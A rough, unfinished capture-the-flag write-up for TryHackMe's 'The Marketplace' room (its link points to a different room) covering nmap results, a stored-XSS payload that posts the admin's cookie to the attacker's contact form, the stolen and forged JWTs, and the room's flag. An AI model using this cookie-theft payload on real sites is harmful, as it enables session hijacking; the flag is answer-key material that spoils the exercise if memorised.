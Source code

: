 # Tryhackme.com Room : The Marketplace
`https://tryhackme.com/room/dogcat`


# Instance
```
export IP=10.10.186.151
```

# Nmap
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
MAC Address: 02:3B:E6:C1:06:4B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is a webapp running on port `32768` that is proxy through nginx on port 80

The website is a 

```
http://10.10.186.151:32768/http-robots.txt
```

There is 2 listing on the website from
```
jake
michael
```

Created a dummy user account
```
yolo:fatkid
```


Sus :
    - report listing to admins
        - Might be an xss where the admin will visit the page and we can retrieve it's cookie using javascript somehow
    - The "new listing" tab has the file upload button disabled.
        - We can enable it by modifying the html but 


XSS

We set `new listing` description to
```
<script>
document.body.innerHTML += '<form id="exploit" action="/contact/yolo" method="post"><input type="hidden" name="message" value="' + document.cookie + '"></form>';
document.getElementById("exploit").submit();
</script>
```

Then we report the page.

We receive a message from admin (`michael`) with its token
```
token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMwNjEyNTR9.76O0N69K5Iw5sQooF7Jlh4jc_OeHoA74TwDfOuIz-uc
```

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjksInVzZXJuYW1lIjoiJzsgc2VsZWN0ICogZnJvbSB1c2VyczsiLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTYwMzA2MzQyNn0.M9R166gdQVeMYoiDjNcvUNEPuEuMIOM38Y3WMe6oohg
```


eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjksInVzZXJuYW1lIjoiJzsgc2VsZWN0ICogZnJvbSB1c2VyczsiLCJhZG1pbiI6dHJ1ZSwiaWF0IjoxNjAzMDYzNDI2fQ==.M9R166gdQVeMYoiDjNcvUNEPuEuMIOM38Y3WMe6oohg

We get access to an admin pannel with the following flag :
```
THM{c37a63895910e478f28669b048c348d5}
```

We have a listing of all the users but there doesn't seems to be anything we can do from there...

The delete user button doesn't do anything

We can't find a place where an sql injection work